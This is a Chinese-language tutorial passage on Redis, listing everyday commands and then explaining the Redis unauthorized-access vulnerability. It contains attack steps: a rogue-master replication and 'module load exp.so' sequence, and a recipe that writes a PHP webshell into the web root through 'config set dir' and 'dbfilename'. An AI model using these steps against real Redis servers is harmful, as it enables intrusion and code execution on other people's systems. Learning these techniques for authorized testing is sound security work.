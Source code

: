 看到 127.0.0.1:6379> 提示符，就表示成功了，可以输入各种Redis命令进行练习。

Redis常用命令：

```
redis-cli -h ip -p port -a pass // 连接redis数据库，如果无密码
info // 返回关于Redis 服务器的各种信息和统计数值
info persistence // 主要查看后台有没有运行任务
flushall										    # 删除所有键
keys *											    # 查询所有键，也可用配合正则查询指定键
get 键名											  # 查询数据
del	键名											  # 删除数据
exists 键名										  # 判断键是否存在
set 键名 键值                                     # 设置键值
type 键名                                        # 查看某个键的类型

select 1        # 切换到1号数据库，一共有16个库，编号0~15

dbsize          # 获取所有键数量
flushdb         # 清空当前数据库

config set protected-mode no # 关闭安全模式

slaveof host port						 # 设置主节点
config set protected-mode no # 关闭安全模式
config set dir /tmp					 # 设置保存目录
config set dbfilename exp.so # 设置保存文件名
config get dir							 # 查看保存目录
config get dbfilename			   # 查看保存文件名
save											   # 执行一个同步保存操作，将当前 Redis 实例的所有数据快照(snapshot)以 RDB 文件的形式保存到硬盘。
slaveof no one  						 # 断开主节点	
module list 								 #redis4.x版本以上有模块功能，查询有什么模块
module load exp.so		 			 #加载exp.so文件模块
quit												 #退出

```

漏洞之————Redis未授权

`redis-cli -h xx.xx.xx.xx -p 6379` 对本地6379端口的redis服务器进行链接，如果可以直接执行info操作，说明存在未授权漏洞

如果没有权限，就会显示`Permission denied`

web目录下写webshell

```bash
info persistence //获取关于 Redis 持久性配置和状态的信息
config set dir /var/www/html  // 设置要配置的目录
config set dbfilename cike.php  //设置要配置的文件名
set shell "\n\n\n<?php phpinfo();?>\n\n\n"  //设置键名还有键的值
save //最后保存
```


